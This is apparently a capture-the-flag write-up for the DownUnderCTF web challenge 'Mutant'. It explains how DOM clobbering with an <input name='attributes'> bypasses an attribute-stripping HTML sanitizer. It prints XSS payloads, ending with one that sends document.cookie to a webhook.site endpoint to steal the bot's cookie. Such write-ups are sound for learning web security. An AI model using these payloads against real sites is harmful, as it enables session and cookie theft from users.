



# DownUnderCTF/web - Mutant  
**Author** - ssparow

**Description**: Just an XSS. What more is there to it?

---

For the final payload click [here](#final-payload).

---

## 🛠️ Setup

We're given a straightforward website: enter something, and it gets displayed back to you. Simple enough, but let's see what tricks are hiding under the hood.




## 🔍 Code Inspection

Looking at `main.js`, we can see how the input is being sanitized:



Here's what the code does:
- Traverses all nodes in the input
- Strips all attributes (so no sneaky event handlers)
- Removes elements with tag names of length 6 or 8  
  - (Filtering by tag length is an interesting choice, but not exactly bulletproof)
- Appends the sanitized input to the HTML

The key part of the code is:
```
  if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8)) {
    n.parentNode.removeChild(n);
    continue;
  }
```
So, if your tag name is 6 or 8 characters long, it's getting removed. Otherwise, it stays.

---

## 🚀 Finding the Payload

- `<script>` and `<iframe>` are blocked by the filter.  
- `` and `<svg>` are the next that come to mind, but they wouldn't work without attributes.  
- 🤔 Time to get creative and look for tags that slip through
- The vulnerability in the script can be exploited using a **DOM Clobbering technique**.
- The loop that is removing the attributes
```
while (n.attributes.length > 0) {
  n.removeAttribute(n.attributes[0].name);
}
```
We can bypass this with
```
<form onmouseover="alert(1)"><input name="attributes"></form>
```
- This loop relies on checking the `length` property of an element's `attributes` object (`n.attributes`).
- By including `<input name="attributes">`inside the `<form>` element, you "clobber" (overwrite) the form's default `.attributes` property. Instead of pointing to the browser's internal list of attributes (a NamedNodeMap), `form.attributes` now points to the `<input>` element itself. This is called **DOM Clobbering**.
- The `<input>`element does not have a `.length` property. Therefore, when the sanitizer checks the condition `n.attributes.length > 0`, it is evaluating `undefined > 0`, which is `false`.
- The while loop is never entered, and the removeAttribute code is never executed for the <form> tag. The malicious onmouseover="alert(1)" attribute remains intact. When the final, supposedly "sanitized" HTML is rendered, moving the mouse over the form will trigger the XSS payload.
- But we still have a problem, when the bot visits the site, it the form element needs a onmouseover to trigger the function and the `<form>` element doesnt have the `onload` property
- Upon some googling and gpting, I found a way to invoke the function on the bot just loading the page.
  - At first I tried `onfocus` with `autofocus` attributes in the form, but they didn't work as the autofocus was converted to `autofocus=""` in the result.
  - Next, I tried `<style>` attribute making the form an animation and using the `onanimationed` attribute in the form element, executing the function required aand it WORKED!

```
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id="attributes"></form>
```



## Final Payload

I used https://webhook.site to create an endpoint the bot would send a request to and created the final payload.
```
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="fetch('https://webhook.site/<my-webhook-id>' + document.cookie)"><input id="attributes"></form>
```

## 🏁 Flag

The request to this site would contain the flag
```
DUCTF{if_y0u_d1dnt_us3_mutation_x5S_th3n_it_w45_un1nt3nded_435743723}
```

This isn't the intended solution!
